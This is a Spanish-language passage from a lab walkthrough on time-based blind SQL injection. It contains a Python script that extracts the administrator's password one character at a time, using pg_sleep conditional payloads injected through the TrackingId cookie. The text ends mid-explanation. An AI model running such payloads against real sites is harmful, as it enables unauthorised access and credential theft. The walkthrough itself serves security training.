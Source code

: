 ```bash
def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1,21):

        for character in characters:

            cookies = {
                    'TrackingId': "eSJZCcY0vUyeTnfo'||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' then pg_sleep(15) else pg_sleep(0) end FROM users WHERE username='administrator')||'" % (position, character),
                'session': '3j6x4gByXLok6suiJlcxoV5Rx6EwmNyP'
                }
            
            p1.status(cookies['TrackingId'])

            time_start = time.time()

            r = requests.get(main_url, cookies=cookies)
            
            time_end = time.time()

            if  time_end - time_start >= 15:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeRequest()
```

Primero obviamente cambiamos la url de la variable main_url, ya que como sabemos es otro laboratorio.

Obviamente cambia el diccionario con el que fuzzearemos todos los caracteres y posiciones a la consulta creada asignándole sus parámetros enlazados a los ciclos for.

Quedando nuestro diccionario de cookie así:

`'TrackingId': "xyz'||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' then pg_sleep(15) else pg_sleep(0) end FROM users WHERE username='administrator')||'" % (position, character)`

Esta consulta es como la que habíamos creado, pero esta vez en vez de los valores que cambiaran para fuzzear la password de administrador, usamos los indicadores que le dirán a python que por cada ciclo cambiara un carácter y su posición, y dentro del mismo for lo que sigue es esto:
